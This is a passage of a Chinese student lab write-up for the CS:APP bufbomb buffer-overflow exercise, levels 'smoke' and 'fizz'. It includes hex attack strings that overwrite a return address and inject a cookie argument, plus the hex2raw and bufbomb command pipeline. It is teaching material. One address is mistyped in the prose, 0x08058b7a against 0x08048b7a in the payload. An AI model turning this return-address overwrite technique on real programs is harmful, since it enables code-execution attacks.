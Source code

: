 总共48个字节，并且前面44个字节可以为任意值，对程序的执行没有任何影响，只要最后四个字节正确地设置为smoke的起始地址**<0x08048b50>** 即可，对应内存写入`50 8b 04 08`（小端格式）。

可以将上述攻击字符串写在攻击字符串文件中，命名为**smoke_U201315075.txt**，之后通过hex2raw处理过滤掉所有的注释，还原成没有任何冗余数据的攻击字符串原始数据而代入bufbomb中使用。通过Linux终端执行：

```bash
cat smoke_U201315075.txt |./hex2raw |./bufbomb -u U201315075
```

显示结果如下：

![](5.png)

至此，level0任务smoke通过！

### level1:fizz

level1 和 level0 大同小异，唯一的区别是本次要求跳入函数 fizz(int) 且该函数有一个参数(要求用所给cookie作argument)。

我们知道在执行完ret指令后栈顶指针 %esp 会自动增加4以还原栈帧。

通过查找fizz()得知：

![](6.png)

- fizz()函数的起始地址为**<0x08048b7a>** 。
- 由Overview里面的栈帧图示可知，ebp存放了调用者的旧ebp（saved %ebp），其上一位置ebp+4存放了调用者的返回地址，所以参数的地址应该为**ebp+8**的位置，我们只需要将自己的cookie放置在该位置即可。

所以构造攻击文件**fizz_U201315075.txt**如下：

```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
7a 8b 04 08
00 00 00 00
26 05 8f 2d
```

其中，**<0x08058b7a>** 为fizz函数起始地址，**0x2d8f0526** 为自己的cookie，通过参数传递给fizz。

最后执行测试结果如下：

![](7.png)

至此，level1任务fizz通过！

